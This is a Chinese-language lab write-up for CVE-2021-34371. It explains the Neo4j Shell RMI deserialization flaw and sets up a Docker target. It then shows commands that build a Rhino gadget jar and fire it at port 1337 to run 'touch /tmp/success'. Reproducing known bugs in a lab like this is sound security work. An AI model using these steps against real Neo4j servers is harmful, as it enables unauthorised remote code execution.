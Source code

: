 # Neo4j Shell Server 反序列化漏洞 CVE-2021-34371

## 漏洞描述

Neo4j是一个开源图数据库管理系统。

在Neo4j 3.4.18及以前，如果开启了Neo4j Shell接口，攻击者将可以通过RMI协议以未授权的身份调用任意方法，其中`setSessionVariable`方法存在反序列化漏洞。因为这个漏洞并非RMI反序列化，所以不受到Java版本的影响。

在Neo4j 3.5及之后的版本，Neo4j Shell被Cyber Shell替代。

参考链接：

- https://www.exploit-db.com/exploits/50170
- https://github.com/mozilla/rhino/issues/520

## 环境搭建

如果你使用Linux或OSX系统，可以执行如下命令启动一个Neo4j 3.4.18：

```
TARGET_IP=<your-ip> docker-compose up -d
```

其中，环境变量`TARGET_IP`需要制定靶场环境的IP地址。

如果你是Windows系统，请直接修改`docker-compose.yml`，指定`TARGET_IP`环境变量的值。

服务启动后，访问`http://your-ip:7474`即可查看到Web管理页面，但我们需要攻击的是其1337端口，这个端口是Neo4j Shell端口，使用RMI协议通信。

## 漏洞复现

使用[参考链接](https://www.exploit-db.com/exploits/50170)中的Java RMI客户端，集成基于Rhino的[Gadget](https://github.com/vulhub/vulhub/blob/master/neo4j/CVE-2021-34371/rhino_gadget)，发送RMI请求：

```
$ mvn install
$ cp target/rhino_gadget-1.0-SNAPSHOT-fatjar.jar ./
$ java -jar rhino_gadget-1.0-SNAPSHOT-fatjar.jar rmi://192.168.174.128:1337 "touch /tmp/success"
```

![image-20220226233047245](./images/202202262330323.png)

可见，`touch /tmp/success5`已成功执行：

![image-20220226233111576](./images/202202262331632.png)